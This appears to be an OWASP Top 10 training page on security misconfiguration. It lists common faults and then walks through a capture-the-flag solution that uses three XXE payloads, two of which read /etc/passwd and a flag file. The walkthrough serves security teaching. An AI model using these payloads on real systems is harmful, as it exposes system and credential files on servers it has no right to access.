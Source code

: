 ```yaml
---
icon: sliders-up
---
```


# A05 - Security Misconfiguration

Security misconfigurations are a widespread issue, leaving systems vulnerable to attack. Studies show that approximately 90% of applications tested have misconfiguration issues, often due to insecure default settings.

### Examples of Common Security Misconfigurations

1. **Improper XML Parser Configuration**: If not securely configured, XML parsers are vulnerable to attacks like XML External Entity (XXE) injection.
2. **Default Passwords**: Default credentials left unchanged can easily allow unauthorized access.
3. **Directory Listing Not Disabled**: When directory listing is enabled on a server, attackers can browse and view all files in a directory. This is often exploitable using techniques like Google Dorking with queries such as `intitle:index of`.
4. **Outdated Default Applications on Production Servers**: Default or sample applications that are shipped with application servers can expose vulnerabilities if not removed. Attackers can exploit known flaws in these applications. If one of these applications includes an admin console with unchanged default credentials, attackers can easily gain control.
5. **Session Cookies Missing HttpOnly and Secure Flags**: Without these flags, session cookies are vulnerable to interception and theft, exposing users to risks like cross-site scripting (XSS).
6. **Lack of Security Headers**: Missing essential security headers (e.g., Content Security Policy, X-Content-Type-Options) increases susceptibility to attacks like cross-site scripting and content sniffing.

### Solution

In this example, we have a page that parses XML data and displays the contents. This setup is vulnerable to XXE attacks, allowing an attacker to manipulate XML data to access sensitive files. Here’s how we exploit this vulnerability:

**1) Testing for Basic XXE**: We use the following payload to verify if XXE is possible:

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
<userInfo>
   <firstName>John</firstName>
   <lastName>&example;</lastName>
</userInfo>
```

If successful, this payload should replace the `lastName` element with `Doe`, confirming the page is vulnerable.

**2) Exploiting XXE to Access Sensitive Files**: Now that we’ve confirmed the vulnerability, we can attempt to read system files with the following payload:

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<userInfo>
   <firstName>John</firstName>
   <lastName>&xxe;</lastName>
</userInfo>
```

This payload retrieves the contents of `/etc/passwd`.

**3) Retrieving the Flag**: Finally, to capture the target flag file, we use the following payload:

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///etc/flag_xxe.txt"> ]>
<userInfo>
   <firstName>John</firstName>
   <lastName>&xxe;</lastName>
</userInfo>
```

This payload displays the contents of `/etc/flag_xxe.txt`, providing us with the flag.
